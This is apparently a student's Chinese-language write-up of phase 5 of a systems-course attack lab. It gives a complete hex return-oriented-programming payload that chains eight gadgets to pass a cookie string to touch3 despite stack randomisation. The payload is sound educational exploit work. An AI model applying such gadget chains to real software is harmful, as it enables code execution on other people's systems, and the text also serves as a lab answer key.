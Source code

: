 mov    $0x909078fb,%eax
lea    -0x3c3876b8(%rdi),%eax
movl   $0xc7c78948,(%rdi)
......
所以考虑过能否使用这些数值来拼凑一个地址，然后把cookie字符串放在那里。但是由于有栈随机化，所以这个思路不行。

后来看了一些解答，发现居然有movq %rsp, %rax这样的神操作，那样就可以用(%rsp) + x的方式来得到cookie字符串的地址了。然后就是一通拼拼凑凑，用了8个gadgets完成了exploit。

exploit-5
关于这种需要很多gadgets才能完成的exploit，觉得思路肯定是最重要的，但是思路明晰之后，在组成gadgets的链条时，不妨用倒序查找的方法，也许会快一些。当然，今后肯定会使用一些查找gadgets的工具啦。

```
AA AA AA AA AA AA AA AA
AA AA AA AA AA AA AA AA
AA AA AA AA AA AA AA AA
AA AA AA AA AA AA AA AA
AA AA AA AA AA AA AA AA
06 1a 40 00 00 00 00 00     /* jump 0x401a06               ;movq %rsp, %rax */
c5 19 40 00 00 00 00 00     /* jump 0x4019c5               ;movq %rax, %rdi */
ab 19 40 00 00 00 00 00     /* jump 0x4019ab               ;popq %rax       */
48 00 00 00 00 00 00 00     /* distance from here to cookie string          */
dd 19 40 00 00 00 00 00     /* jump 0x4019dd               ;movl %eax, %edx */
34 1a 40 00 00 00 00 00     /* jump 0x401a34               ;movl %edx, %ecx */
13 1a 40 00 00 00 00 00     /* jump 0x401a13               ;movl %ecx, %esi */
d6 19 40 00 00 00 00 00     /* jump 0x4019d6        ;lea (%rdi,%rsi,1),%rax */
c5 19 40 00 00 00 00 00     /* jump 0x4019c5               ;movq %rax, %rdi */
fa 18 40 00 00 00 00 00     /* touch3                                       */
35 39 62 39 39 37 66 61     /* cookie string                                */
00 00 00 00 00 00 00 00     /* string ends with 00                          */
```

